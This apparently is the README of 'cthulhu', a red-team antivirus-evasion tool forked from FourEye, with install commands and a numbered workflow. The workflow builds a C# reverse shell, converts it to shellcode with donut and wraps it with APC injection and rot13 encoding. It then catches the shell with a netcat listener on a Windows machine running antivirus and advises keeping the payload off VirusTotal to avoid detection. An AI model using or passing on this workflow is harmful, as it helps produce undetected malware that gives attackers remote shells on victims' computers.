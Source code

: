 ![immagine](http://www.clker.com/cliparts/0/c/f/0/1194984914309460086elder_sign_nurbldoff_01r.svg.med.png)

# cthulhu

AV Evasion, Red Team tool, a FourEye fork (by Leginbo https://github.com/lengjibo) 

# Install

git clone https://github.com/foxlox/cthulhu

cd cthulhu

chmod 755 setup.sh

./setup.sh

python3 cthulhu.py
    
    
![immagine](https://user-images.githubusercontent.com/28823598/128512455-1bad09e2-9616-4333-ad37-db895705ff02.png)
  
    
![immagine](https://user-images.githubusercontent.com/28823598/128512283-4e75f989-f5fd-4e54-b954-7741fc231add.png)


# Example

1. Create a new Visual Studio C# Console Project

2. Add reverse.cs and set IP and PORT

3. Build it

4. go to your Linux box

5. $ donut compiledapp.exe -o ca.bin

6. $ python3 cthulhu.py -method apc -arch x86 -bin ca.bin -enc rot13

    => [+]shellcode created: /tmp/shellcode.exe

8. Bind the right port with netcat on your linux box and wait.

9. Copy shellcode.exe on Windows box and run it. Don't forget to start your Antivirus.

10. Don't upload your shellcode.exe on Virustotal


    *fox
    
